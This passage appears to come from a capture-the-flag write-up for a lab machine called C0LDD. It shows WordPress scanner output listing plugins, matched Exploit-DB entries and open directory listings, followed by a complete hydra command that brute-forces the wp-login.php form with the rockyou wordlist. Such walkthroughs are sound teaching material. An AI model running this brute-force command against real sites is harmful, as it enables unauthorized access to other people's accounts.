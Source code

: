 [I] http://10.10.34.213/wp-includes/ID3/license.txt
[I] http://10.10.34.213/wp-includes/ID3/readme.txt
[I] http://10.10.34.213/wp-includes/images/crystal/license.txt
[I] http://10.10.34.213/wp-includes/js/plupload/license.txt
[I] http://10.10.34.213/wp-includes/js/swfupload/license.txt
[I] http://10.10.34.213/wp-includes/js/tinymce/license.txt
[-] Searching Wordpress Plugins ...
[I] akismet v3.0.4
[M]  EDB-ID: 37826 "WordPress Core 3.4.2 - Multiple Path Disclosure Vulnerabilities"
[M]  EDB-ID: 37902 "WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities"
[I] worprees plugin bug dar
grep: plugin: No such file or directory
grep: bug: No such file or directory
grep: dar[&=/]: No such file or directory
[M]  EDB-ID: 48065 "WordPress Plugin ultimate-member 2.1.3 - Local File Inclusion"
[I] Checking for Directory Listing Enabled ...
[L] http://10.10.34.213/wp-admin/css
[L] http://10.10.34.213/wp-admin/images
[L] http://10.10.34.213/wp-admin/includes
[L] http://10.10.34.213/wp-admin/js
[L] http://10.10.34.213/wp-admin/maint
[L] http://10.10.34.213/wp-includes
[L] http://10.10.34.213/wp-includes/ID3
[L] http://10.10.34.213/wp-includes/SimplePie
[L] http://10.10.34.213/wp-includes/Text
[L] http://10.10.34.213/wp-includes/certificates
[L] http://10.10.34.213/wp-includes/css
[L] http://10.10.34.213/wp-includes/fonts
[L] http://10.10.34.213/wp-includes/images
[L] http://10.10.34.213/wp-includes/js
[L] http://10.10.34.213/wp-includes/pomo
[L] http://10.10.34.213/wp-includes/theme-compat
[-] Date & Time: 07/01/2021 15:20:53
[-] Completed in: 0:02:15

{% endhighlight %}

### C0LDD (User has WP Admin access)
***
<p>
In order to find password used following command.
</p>
{% highlight bash %}
hydra -L usrname.txt -P /usr/share/wordlists/rockyou.txt 10.10.34.213 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
{% endhighlight %}
<br>

### WORDPRESS
***
